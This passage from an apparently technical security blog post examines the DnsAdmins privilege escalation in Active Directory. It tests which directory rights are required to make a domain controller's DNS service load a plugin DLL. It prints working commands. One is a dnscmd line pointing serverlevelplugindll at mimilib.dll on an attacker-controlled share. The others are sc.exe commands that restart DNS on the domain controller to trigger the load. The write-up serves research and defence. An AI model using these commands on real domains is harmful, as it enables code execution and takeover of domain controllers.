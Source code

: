 So according to the [Active Directory Technical Specification](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/d2435927-0999-4c62-8c6d-13ba31a52e1a) (Page 419), what is the ```RIGHT_DS_WRITE_PROPERTY_EXTENDED``` and why is it important in our exploitation ?  

# What are the necessary rights for the exploitation
  
Let's play with DnsAdmins rights and see what happens in the context of a DnsAdmins member. Let's assume that our **attacker** user got a control path to add himself to DnsAdmins for example ;
```powershell
PS C:\> Get-ADGroupMember DnsAdmins


distinguishedName : CN=attacker,CN=Users,DC=phackt,DC=local
name              : attacker
objectClass       : user
objectGUID        : 1cab0c62-e28b-4a80-b13f-f1ff515d6d44
SamAccountName    : attacker
SID               : S-1-5-21-3816950244-2414788102-2833019223-1612

PS C:\> whoami
phackt\attacker

PS C:\> dnscmd DC01.PHACKT.LOCAL /config /serverlevelplugindll \\attackermachine\dll\mimilib.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully
```
  
<p class="note">
<i>dnscmd.exe</i> will need the DNS RSAT installed: <br><br>
<code>
Add-WindowsCapability –online –Name "Rsat.Dns.Tools~~~~0.0.1.0"
</code>
</p>
  
So what happened ?  
<img class="dropshadowclass" src="{{ site.url }}/public/images/dnsadmins/procmondll.png" style="margin-top:1.5rem;margin-bottom:1.5rem;">
  
The ```ServerPluginDll``` has been set, you can restart the DNS service to trigger your exploit :  
```cmd
sc.exe \\dc01.phackt.local stop dns
sc.exe \\dc01.phackt.local start dns
```
  
Now let's drop the ```RIGHT_DS_WRITE_PROPERTY_EXTENDED``` right ;
<img class="dropshadowclass" src="{{ site.url }}/public/images/dnsadmins/withoutextwrite.png" style="margin-top:1.5rem;margin-bottom:1.5rem;">
    
Now let's get back to our exploitation ;
<img class="dropshadowclass" src="{{ site.url }}/public/images/dnsadmins/expwithoutextwrite.png" style="margin-top:1.5rem;margin-bottom:1.5rem;">

Hum ok it does not work anymore. So let's rollback and drop this time the ```RIGHT_DS_WRITE_PROPERTY``` ;
<img class="dropshadowclass" src="{{ site.url }}/public/images/dnsadmins/expwithoutwrite.png" style="margin-top:1.5rem;margin-bottom:1.5rem;">
  
